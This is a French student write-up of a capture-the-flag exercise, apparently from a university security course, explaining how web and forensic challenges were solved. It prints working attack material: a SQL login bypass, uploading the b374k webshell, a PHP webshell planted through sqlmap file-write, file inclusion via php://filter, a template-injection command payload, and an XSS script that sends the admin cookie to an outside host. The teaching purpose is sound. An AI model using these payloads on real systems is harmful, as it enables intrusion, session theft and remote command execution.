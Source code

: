# SRS Capture The Flag
Dans le cadre de l'UV SRS à l'IMT Lille Douai, Advens nous a proposé de participé à un CTF (Capture The Flag) afin de nous former aux techniques de ethical hacking.
Ce document nous permettra d'expliquer les méthodes que nous avons employé pour résoudre les différents challenges de ce CTF. 


## Web

### Baby Web
Ce challenge commence sur une page d'authentification comprenant 2 champs : login/password. Afin de forcer le passage de cette page, nous avons utilisé une **injection SQL** en complétant l'un des champ avec le code suivant : `'OR 1=1'`.
> En effet, en supposant que la requête SQL executée du coté serveur est du type `SELECT * from admins WHERE login='$login' AND password='$password'`. Notre injection permettra d'avoir le code suivant exécuté du coté serveur et donc de forcer l'accès : `SELECT * from admins WHERE login=''OR 1=1'' AND password=whatever`.

Cela nous donne accès à une page d'upload de fichier sur le serveur. Afin de gagner un accès au serveur, nous allons injecter un shell via ce service d'upload. Nous utiliserons le webshell de  [b374k](https://github.com/b374k/b374k).
On génère un webshell grâce aux commandes suivantes : 
```
> git clone  https://github.com/b374k/b374k
> cd b374k
> php  -f  index.php  --  -o  shell.php  -p  password123
```
Il nous suffit donc du l'uploader sur le serveur pour avoir accès au serveur. Nous obtenons un shell avec les droits de l'application web. Ces droits nous permettent de mener nos investigations sur l'ensemble du serveur et notament dans le repertoire `/root` où nous trouverons le premier flag [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/babyWeb/babyWeb_4.PNG). 
```
> cat /root/flag.txt
advens{easy_baby_web}
```

### Pentester Adventures
Ce challenge nous amène sur un site bloqué par la NSA et donc non-indexé. L'indexation d'un site est géré par le fichier `robots.txt` qui est situé à la racine du site [doc](http://robots-txt.com/). Lors de la consultation de ce document, on voit que le site comprend 2 pages [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_1.PNG) : 
 - `/dict.txt` : une suite d'identifiants et de mots de passe au format texte
 - `/nsa-secure-scripts.php` : une page d'identification avec un couple login:mdp. Nous allons tenter d'utiliser le fichier `dict.txt` pour brute-forcer l'accès à cette page.

La page d'identification renvois une erreur *wrong login* lorsque le login ne correspond pas à un utilisateur connu. Nous pouvons donc supposer qu'en testant tous les identifiants, nous arrivrons à un message du type *wrong password*, et donc une taille de réponse différente.
Avec le logiciel Burp, nous allons intercepter une requête d'identification et faire varier uniquement le login en se servant du fichier `dict.txt`. On compare ensuite les tailles des réponses pour identifier le bon login [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_5.PNG). De la même manière, on peux identifier le mot de passe de la page pour arriver au coupe `qwertyui:security` [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_7.PNG). 

On accède enfin à une page qui liste 2 liens : une capture d'un ping local et un fichier de configuration php à l'adresse suivante `/nsa-secure-scripts.php?script=scripts/phpinfos.php`. En se referant à cette [documentation](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/), on injecte `php://filter/convert.base64-encode/resource=nsa-secure-scripts.php` pour inspecter le code source de la page [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_9.PNG). C'est ainsi qu'on remarque le bloc de code suivant : 
```
if(isset($_GET['cmd_shell_params'])){
	system($_GET['cmd_shell_params']);
}
```
Grâce à cette option, on peut réussir à ouvrir un shell sur le serveur cible. Ainsi, on fait une recherche sur les fichiers `*.txt` pour localiser le flag et l'afficher sur la page web [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_11.PNG).

### Cookie hacker
La page de ce challenge nous permet de poster des messages et donc potentiellement de tenter une attaque XSS. Nous allons tenter de voler un cookie administrateur (fichier `document.cookie`) pour pouvoir nous identifier sur la page d'administration. 
Cependant, le serveur étant en "maintenance", les messages d'injection XSS de type `<script>alert()</script>` ne sont pas envoyé par le serveur. Nous allons donc tenter d'injection un script permettant de rediriger le contenu du `document.cookie` vers un autre serveur : 
```
<script>
	document.location="https://remoteadresse" + document.cookie;
</script>
```
Grâce au site [Request Inspector](https://requestinspector.com/) nous allons pouvoir récupérer le resultat de notre script et donc récupérer le cookie administrateur. [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/cookieHacker/cookieHacker_2.PNG). Ensuite l'extension [Cookie Quick Manager](https://addons.mozilla.org/fr/firefox/addon/cookie-quick-manager/) nous permet d’éditer les cookies et d'injecter notre cookie volé. Une fois le cookie re-injecté, on obtient le flag du challenge.

### Le Blog de Michel
Ce blog interroge une base de donnée pour aller chercher ses articles grâce à une structure d'url `http://url/?page=blog&id=1`. Grâce à `sqlmap` nous allons voir s'il est possible de réaliser une injection SQL [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/blogMichel/blogMichel_1.PNG).

Une fois la faille SQL identifié, nous allons injecter un shell dans le serveur cible afin de pouvoir interagir avec lui. 
```
> cat /root/simpleShell.php
<?php
	if(isset($_REQUEST['cmd'])){
		echo "<pre>";
		$cmd = ($_REQUEST['cmd']);
		system($cmd);
		echo "<pre>';
		die;
	}
?>

> sqlmap -u http://blogdemichel.hackdumb.com/?page=blog\&id=1 --file-write="/root/simpleShell.php"--file-dest="../../../../../../tmp/simpleShell.php" 
```
Cette dernière commande `sqlmap` permet d'injecter un fichier local sur le serveur. L'injection de `simpleShell.php` est réalisée dans le dossier `/tmp` afin de ne pas requérir de droit spéciaux. Afin d'atteindre ce dossier on remonte l’arborescence grâce aux multiples `..`.
Grâce à ce webshell on peux interagir avec le serveur et localiser le flag dans `/home/michel`. A noter qu'on utilise l’exécutable `getflag` qui peut être exécuté par tout les utilisateurs. [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/blogMichel/blogMichel_5.PNG).

### Mr President
Ce dernier challenge web présente un formulaire qui permet d'afficher du texte sur une autre page web. En injectant un contenu sous la forme `{{...}}`, on remarque que le contenu est exécuté par le serveur web [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/mrPresident/mrPresident_1.PNG).
En suivant une documentation fournie par [CTFtime](https://ctftime.org/task/6579), on arrive à déduire que l'application est écrite en python et à réaliser une injection pour exécuter des commandes [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/mrPresident/mrPresident_2.PNG).
```
{{url_for.__globals__.os.__dict__.popen(/*commande*/).read()}}
```
On fouillant sur le serveur, on finit par découvrir un executable `runme` qui permet à tous les utilisateurs de lire un fichier `flag` [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/mrPresident/mrPresident_3.PNG).

## Forensic

### Simple HTTP
Cette épreuve nous met à disposition une capture de trames où 2 machines échanges des données. 
On suppose que l'une des trame doit contenir un mot de passe ou un flag. En filtrant les trames par protocole, il est facile de repérer un paquet `HTTP/POST`. En inspectant le contenu de cette trame, on trouve rapidement un fichier `flag.txt` encapsulé un paquet `MIME`.  On trouve donc le flag en clair dans cette partie de la trame [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/forensic/simpleHTTP/simpleHTTP_1.PNG).
